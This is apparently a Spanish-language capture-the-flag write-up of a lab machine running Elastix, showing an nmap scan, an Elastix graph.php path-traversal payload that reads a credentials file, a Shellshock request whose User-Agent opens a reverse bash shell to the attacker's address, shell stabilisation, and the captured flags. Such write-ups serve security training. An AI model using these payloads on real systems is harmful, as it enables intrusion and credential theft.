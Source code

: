 # NMAP

primero realizamos un escaneo de nmap. pero en este caso a diferencia de mis otros writeups vamos a cambiar el método

normalmente realizamos un primer escaneo básico para encontrar los puertos abiertos y después lanzamos un escaneo son scripts básicos de nmap para encontrar servicios y versiones. Esto lo hacemos para que el escaneo básico sea rápido y posteriormente conseguimos un archivo al que llamamos targeted donde tenemos la informacion bien agrupada y fácil de leer.

En este caso debido a que la cantidad de puertos es enorme vamos a realizar ambos escaneos a la vez, es cierto que tardara mas en darnos el resultado pero con esto ganamos el esperar tan solo una vez y no tener que estar en dos escaneos esperando demasiado tiempo. de todas formas podeis realizar el escaneo como vosotros queráis no es estrictamente necesario imitar esta técnica.

```bash
nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn 10.129.183.206 -sC -sV -oN targeted
```

![[ 20250719135701.png]]
![[ 20250719135718.png]]

# Puerto 80

>(Al principio puede dar fallo la pagina web, recomendación: poner en la URL "about:config" y en la barrita de búsqueda "security.tls.version.min" )

![[ 20250719142158.png]]

>con estos cambios no debería haber problema

como siempre que una maquina tiene un puerto 80 con http / https abiertos empezamos por aqui 

![[ 20250719135953.png]]

vemos esta pagina web de elastix

buscando un poco en exploitDB y varias paginas de google conseguimos encontrar esta vulnerabilidad "Elastix 2.2.0 - 'graph.php' Local File Inclusion" 

es un LFI que segun exploitDB el vector de ataque seria:

```pl
#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

probamos a inyectar esto en la pagina web 


![[ 20250719140246.png]]

![[ 20250719140400.png]]

podemos ver líneas interesantes con usuarios y contraseñas


en el puerto 80 si que conseguimos acceso pero no nos sirve de mucho pero en el puerto 10000 no conseguimos acceso aunque si que vemos por URL lo siguiente

https://10.129.183.206:10000/session_login.cgi

un .cgi por el que podriamos tratar de realizar un ataque shellsock 

# Shellshock

en nuestra maquina atacante abrimos un puerto de escucha con nc

```bash
nc -nlvp 4444
```

![[ 20250719141259.png]]

y mientras estamos en escucha lanzamos el ataque shellshock 

```bash
curl --tlsv1.0 --tls-max 1.0 -k -A "() { :; }; /bin/bash -i >& /dev/tcp/10.10.14.48/4444 0>&1" https://10.129.183.206:10000/session_login.cgi &>/dev/null
```



tenemos shell como root 

![[ 20250719141324.png]]

# Tratamiento de Shell

como siempre vamos a tratar la shell para trabajar comodos

```bash
which python
```

vemos que python existe ya que esta en el directorio /usr/bin/pyton

asi que utilizamos el comando

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

despues suspendemos la shell con Ctrl +Z 

utilizamos 
```bash
stty raw -echo; fg
```

y ponemos 
```bash
export TERM=xterm
```

# Flags

una vez tenemos la shell practica vamos a por las flags

## user

![[ 20250719141718.png]]

user :  f39e9e4509649148e06e50b0e2a1a5cd

## root

![[ 20250719141808.png]]

root : 06673369bab439c578238b14b27fbc96

